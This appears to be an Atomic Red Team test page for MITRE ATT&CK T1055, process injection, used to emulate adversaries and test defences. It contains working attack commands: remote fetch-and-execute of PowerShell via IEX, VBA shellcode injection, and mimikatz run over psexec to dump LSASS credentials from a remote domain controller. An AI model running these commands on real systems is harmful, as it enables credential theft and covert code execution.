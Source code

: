 # T1055 - Process Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055)
<blockquote>Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process. 

There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific. 

More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Shellcode execution via VBA](#atomic-test-1---shellcode-execution-via-vba)

- [Atomic Test #2 - Remote Process Injection in LSASS via mimikatz](#atomic-test-2---remote-process-injection-in-lsass-via-mimikatz)

- [Atomic Test #3 - Section View Injection](#atomic-test-3---section-view-injection)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| txt_path | Path to file containing VBA macro to run | Path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: #{txt_path} must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path #{txt_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{txt_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}"
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | String | DC1|
| mimikatz_path | Mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | String | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_path} /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
<br/>

## Atomic Test #3 - Section View Injection
This test creates a section object in the local process followed by a local section view.
The shellcode is copied into the local section view and a remote section view is created in the target process, pointing to the local section view. 
A thread is then created in the target process, using the remote section view as start address.

**Supported Platforms:** Windows


**auto_generated_guid:** c6952f41-6cf0-450a-b352-2ca8dae7c178






#### Attack Commands: Run with `powershell`! 


```powershell
$notepad = Start-Process notepad -passthru
Start-Process $PathToAtomicsFolder\T1055\bin\x64\InjectView.exe
```

#### Cleanup Commands:
```powershell
Stop-Process $notepad.pid
```





<br/>
